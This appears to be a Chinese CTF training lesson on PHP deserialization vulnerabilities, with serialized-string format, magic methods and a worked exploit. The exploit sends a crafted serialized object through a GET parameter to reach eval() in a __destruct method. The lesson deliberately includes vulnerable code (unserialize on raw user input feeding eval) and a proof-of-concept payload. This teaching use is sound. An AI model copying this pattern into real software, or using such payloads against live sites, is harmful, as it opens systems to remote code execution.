


# CTF网络安全培训：09：Web篇-反序列化漏洞



## 概述
在本节课中，我们将要学习CTF比赛中Web方向的一个重要漏洞类型——反序列化漏洞。我们将从序列化的基本概念讲起，逐步深入到漏洞的原理、利用方法，并通过代码示例帮助大家理解。

---

## 序列化与反序列化基础

上一节我们介绍了本课程的主题，本节中我们来看看序列化与反序列化的基本定义。

*   **序列化**：将对象的状态信息转换为可以存储或传输的形式的过程。在序列化期间，对象将当前状态写入到临时或持久性的存储区，将状态信息保存为字符串。
*   **反序列化**：把序列化之后的字符串再转化为对象的过程。

序列化过程本身没有漏洞。产生漏洞的主要原因是在反序列化的过程中，通过恶意篡改序列化字符串，可能触发魔法函数、导致字符串逃逸或远程命令执行等问题。

---

## 序列化字符串格式

理解了基本概念后，我们来看看序列化后的字符串具体是什么样子。以下是序列化字符串的基本格式说明。

*   `string`类型通过 `S:size:value` 来表示。`size`是字符串变量的长度，`value`是字符串变量的值。

接下来，我们将通过代码来更全面地了解字符串的基本格式。

```php
<?php
class User {
    public $age;
    public $name;
    function print_data() {
        echo $this->name . ‘:’ . $this->age;
    }
}
$user = new User();
$user->name = ‘admin’;
$user->age = 18;
echo serialize($user);
?>
```

以上PHP代码声明了一个`User`类，并创建对象进行序列化。输出结果如下：

```
O:4:“User”:2:{s:3:“age”;i:18;s:4:“name”;s:5:“admin”;}
```

这个字符串就是对象`User`序列化之后的形式。其结构解析如下：
*   `O` 表示这是一个对象。
*   `4` 表示对象名的长度为4（即“User”）。
*   `2` 表示这个对象有2个属性（成员变量）。
*   花括号 `{}` 内是属性的键值对。
    *   `s:3:“age”;` 表示键（key）是一个长度为3的字符串“age”。
    *   `i:18;` 表示值（value）是一个整型数字18。
    *   `s:4:“name”;` 表示键是长度为4的字符串“name”。
    *   `s:5:“admin”;` 表示值是长度为5的字符串“admin”。

---

## PHP魔法函数简介

在深入漏洞利用之前，我们需要了解PHP中一些特殊的魔法函数，它们在反序列化漏洞的触发中扮演着关键角色。

以下是PHP反序列化中可能用到的魔法函数列表：

*   **__construct()**：构造函数，在创建新对象时初始化，一般用于对变量进行赋值。
*   **__destruct()**：析构函数，与构造函数相反。在对象的所有引用都被删除或程序退出时自动调用。
*   **__toString()**：当一个对象被当作一个字符串使用时被调用。返回值需为字符串类型。
*   **__wakeup()**：在使用`unserialize()`反序列化时触发，在反序列化恢复对象之前调用该函数。
*   **__sleep()**：在使用`serialize()`序列化时触发。该函数需要返回一个以成员变量名作为元素的数组，只有出现在该数组里的成员变量才会被序列化。
*   **__invoke()**：当脚本尝试将对象作为函数调用时触发。

---

## 反序列化漏洞攻击案例

了解了魔法函数的作用后，我们来看一个具体的攻击案例，理解漏洞是如何在实际中产生的。

一个PHP论坛使用PHP对象序列化来保存一个“超级cookie”。该cookie包含了用户的ID、角色、密码哈希和其他状态。攻击者将序列化对象中的用户权限从“user”修改为“admin”，从而将自己的账号“alice”权限提升为管理员，达到了权限提升的目的。

---

## 无__wakeup函数漏洞利用

上一节我们看了一个逻辑层面的案例，本节中我们来看看一个更直接的代码执行案例。右侧为一段存在漏洞的源代码。

```php
class Demo {
    public $test;
    public function __construct() {
        $this->test = ‘hello’;
    }
    public function __destruct() {
        eval($this->test); // 危险函数
    }
}
$code = $_GET[‘code’];
unserialize($code);
```

这段代码有一个构造函数和一个析构函数。构造函数为`test`变量赋值。析构函数则会调用`eval()`函数执行代码。通过GET请求传入`code`参数，其值作为反序列化字符串，可以调用`unserialize`函数。当对象消亡后，就会调用析构函数里面的`eval`函数，从而达到反序列化漏洞的利用。

我们只需要将GET传参的`code`参数值设置为特定的序列化字符串。例如，构造一个`Demo`对象，使其`test`变量的值为`phpinfo();`。

```php
$obj = new Demo();
$obj->test = “phpinfo();”;
echo serialize($obj);
// 输出：O:4:“Demo”:1:{s:4:“test”;s:10:“phpinfo();”;}
```

将生成的序列化字符串`O:4:“Demo”:1:{s:4:“test”;s:10:“phpinfo();”;}`作为`code`参数的值传入，就会触发`eval(‘phpinfo();’)`，从而执行`phpinfo()`函数，演示了反序列化漏洞的利用。

---

## 反序列化漏洞实操演示

理论结合实践，接下来我们通过一个简单的题目进行实操演示。

假设存在文件 `test1.php`，其内容与我们之前的基础示例类似，创建`User`对象并输出序列化结果。

```php
// test1.php 内容
class User {
    public $age;
    public $name;
}
$user = new User();
$user->name = ‘t123456’;
$user->age = 22;
echo serialize($user);
// 输出：O:4:“User”:2:{s:3:“age”;i:22;s:4:“name”;s:7:“t123456”;}
```

再看一道存在漏洞的题目，有一个`Demo`类，包含`test`变量，并通过GET请求接收`code`参数进行反序列化。

```php
// 漏洞代码
class Demo {
    public $test;
    public function __destruct() {
        eval($this->test);
    }
}
$code = $_GET[‘code’];
unserialize($code);
```

解题思路如下：
1.  我们需要构造一个`Demo`类的序列化字符串，并让它的`test`属性值为我们想执行的代码，例如`phpinfo();`。
2.  编写一个脚本生成该序列化字符串。

```php
// 生成Payload的脚本
class Demo {
    public $test = “phpinfo();”;
}
$obj = new Demo();
echo serialize($obj);
// 输出：O:4:“Demo”:1:{s:4:“test”;s:10:“phpinfo();”;}
```

3.  访问漏洞页面，并传入`code`参数：`?code=O:4:“Demo”:1:{s:4:“test”;s:10:“phpinfo();”;}`
4.  此时，页面会执行`phpinfo()`函数，从而证明反序列化漏洞利用成功。

---

## 总结



本节课中我们一起学习了CTF中Web方向的反序列化漏洞。
我们首先了解了序列化与反序列化的基本概念，然后学习了PHP序列化字符串的格式。
接着，我们认识了在反序列化漏洞利用中至关重要的PHP魔法函数。
通过一个权限提升的攻击案例和一个直接的代码执行案例，我们理解了反序列化漏洞的原理和危害。
最后，我们进行了实操演示，一步步完成了漏洞的利用。

反序列化漏洞还有很多种绕过和利用方式，后续课程将会针对各种类型的反序列化漏洞制作相应的教学视频。


---
*注：本课程内容仅用于CTF网络安全教学培训，请遵守《网络安全法》及相关法律法规，勿用于非法用途。*